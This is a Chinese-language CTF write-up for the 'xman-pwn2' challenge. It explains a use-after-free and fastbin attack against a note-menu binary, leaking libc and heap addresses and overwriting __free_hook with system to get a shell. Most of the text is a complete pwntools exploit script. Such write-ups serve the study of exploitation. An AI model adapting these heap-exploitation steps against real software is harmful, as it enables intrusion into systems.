

# 标题

> xman-pwn2

## **原理**
uaf，fastbin attack

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

- 首先通过输出unsorted bin的内容泄漏libc基地址。

```
add(0x88,'a'*0x88)#0
add(0x88,'a'*0x88)#1
delete(0)
show()
p.recvuntil("0 : ")
main_arena=u64(p.recv(6).ljust(8,'\x00'))-0x58
print hex(main_arena)
libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
system=libc_base+libc.symbols['system']
print "system",hex(system)

free_hook=libc_base+libc.symbols['__free_hook']
print hex(free_hook)

```

- 同样的，通过泄漏fastbin的内容来得到heap的地址，同时也能得倒top_ptr的值。

```
add(0x88,'a'*0x88)#2
add(0x20,'a'*0x20)#3
add(0x20,'a'*0x18+p64(0x31))#4
delete(4)
delete(3)
show()
p.recvuntil("3 : ")
heap=u64(p.recv(6).ljust(8,'\x00'))-0x150
print "heap",hex(heap)
edit(3,p64(heap+0x170)+'\n')

top_ptr=heap+0x180
```
- 接下来我们要进行的是一个fastbin attack

```
add(0x20,'/bin/sh\n')#5

#修改top chunk 的size值
add(0x20,'a'*0x8+p64(system+free_hook-top_ptr-1)+'\n')

add(free_hook-top_ptr-0x10,'\n')
#触发free_hook
delete(5)
```
但是，这里有个问题注意一下。为什么add的参数是一个这样的值呢？

是因为在程序中有一个这样的方法：



这个方法过滤了输入，不能输入libc中的地址值，所以我们将top chunk的size值改成一个这样的值`system+free_hook-top_ptr-1`。这个值很大，当我们再malloc一个`free_hook-top_ptr-0x10`大小的值的时候，会从top chunk中切分。

根据运行机制我们可以得知，接下来 top chunk剩下的大小为：

```
system+free_hook-top_ptr-1 - (free_hook-top_ptr-0x10 +0x10) = system-1
```

同时 top_ptr的指向free_hook

```
top_ptr + free_hook_top_ptr = free_hook
```

这样我们就成功的将free_hook指向 system-1，而bin/sh先前已经被我们放入相应的位置。

这样调用 free函数就可以成功的触发 system。

完整exp：

```
from pwn import *

def add(size,data):
	p.sendlineafter(">> ","1")
	p.sendlineafter("note:",str(size))
	p.sendafter("note:",data)


def edit(index,data):
	p.sendlineafter(">> ","2")
	p.sendlineafter("note:",str(index))
	p.sendafter("note:",data)

def delete(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("note:",str(index))

def show():
	p.sendlineafter(">> ","4")


libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=process('./pwn')


add(0x88,'a'*0x88)#0
add(0x88,'a'*0x88)#1
delete(0)
show()
p.recvuntil("0 : ")
main_arena=u64(p.recv(6).ljust(8,'\x00'))-0x58
print hex(main_arena)
libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
system=libc_base+libc.symbols['system']
print "system",hex(system)

free_hook=libc_base+libc.symbols['__free_hook']
print hex(free_hook)


add(0x88,'a'*0x88)#2
add(0x20,'a'*0x20)#3
add(0x20,'a'*0x18+p64(0x31))#4
delete(4)
delete(3)
show()
p.recvuntil("3 : ")
heap=u64(p.recv(6).ljust(8,'\x00'))-0x150
print "heap",hex(heap)
edit(3,p64(heap+0x170)+'\n')
#gdb.attach(p)
top_ptr=heap+0x180

print hex(system+free_hook-top_ptr)
print hex(free_hook-top_ptr)

add(0x20,'/bin/sh\n')#5
add(0x20,'a'*0x8+p64(system+free_hook-top_ptr-1)+'\n')
add(free_hook-top_ptr-0x10,'\n')

#gdb.attach(p)

delete(5)
#gdb.attach(p)

#system+free_hook-top_ptr-1 - (free_hook-top_ptr-0x10 +0x10) = system-1

#top_ptr + free_hook_top_ptr = free_hook
p.interactive()

```
## **参考阅读**

